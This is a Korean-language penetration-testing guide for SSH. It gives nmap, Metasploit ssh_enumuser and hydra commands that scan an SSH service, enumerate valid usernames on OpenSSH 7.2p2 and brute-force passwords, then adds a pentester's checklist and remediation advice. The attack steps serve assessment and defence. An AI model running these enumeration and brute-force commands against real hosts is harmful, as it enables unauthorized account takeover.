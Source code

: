 1. **nmap으로 SSH 서비스 및 버전 확인**
    ```
    nmap -sV -sC -Pn -p 2222 [타겟IP]
    ```
    - 예시 결과:  
      ```
      2222/tcp open  ssh  OpenSSH 7.2p2 Ubuntu
      ```
    - OpenSSH 7.2p2는 7.7 미만으로, 사용자 이름 정보 수집 취약점에 포함됨

2. **사용자 이름 리스트 준비**  
   - Google에서 `username_seclist github` 검색 후, 사용자들이 자주 사용하는 계정명 리스트를 다운로드  
   - 칼리 리눅스(로컬)에 `username.txt` 파일로 저장

3. **Metasploit을 이용한 사용자 이름 정보 수집 (ssh_enumuser 모듈)**
    ```
    msfconsole
    ```
    ```
    search ssh_enumuser
    use auxiliary/scanner/ssh/ssh_enumuser
    options
    set rhosts [타겟IP]
    set rport 2222
    set user_file /home/kali/username.txt
    run
    ```
    - 결과로 유효한 계정을 알 수 있음

4. **발견한 사용자 이름을 바탕으로 브루트포스 공격 시도 (예: hydra)**
    ```
    hydra -L valid_users.txt -P passwords.txt ssh://[타겟IP] -s 2222
    ```

---

### SSH 취약점 진단 시 체크리스트

**존재하지 않는 사용자로 브루트 포스 취약점이 존재하는지 확인**
- 실무에서는 최소한으로 진행, 브루트포스 공격으로 인하여 계정 잠김 이슈 가능성 존재하므로 아래 명령어 사용
	- `hydra -L thisuserdoesnotexit -P password.txt ssh://<IP>:<Port> -V -f` 
	- 존재하지 않는 유저 이름을 사용해 계정 잠금 방지
	- 비밀번호 사전 파일의 사용되는 비밀번호는 30개 내외
	- 엄격한 내부망/사내망 시 고객사 허락 필요
	- 중간에 IP가 차단되어 공격이 불가하다면, 브루트 포스 취약점 X


---

### 참고 및 대응 방안

- SSH 서버를 최신 버전으로 업데이트  
- 비밀번호 인증 비활성화 및 공개키 인증 활성화 권장  
- fail2ban, iptables 등으로 로그인 시도 제한 설정  
- 불필요한 계정 비활성화 및 강력한 비밀번호 정책 적용  
- SFTP 설정 시 보안 취약점 점검  

---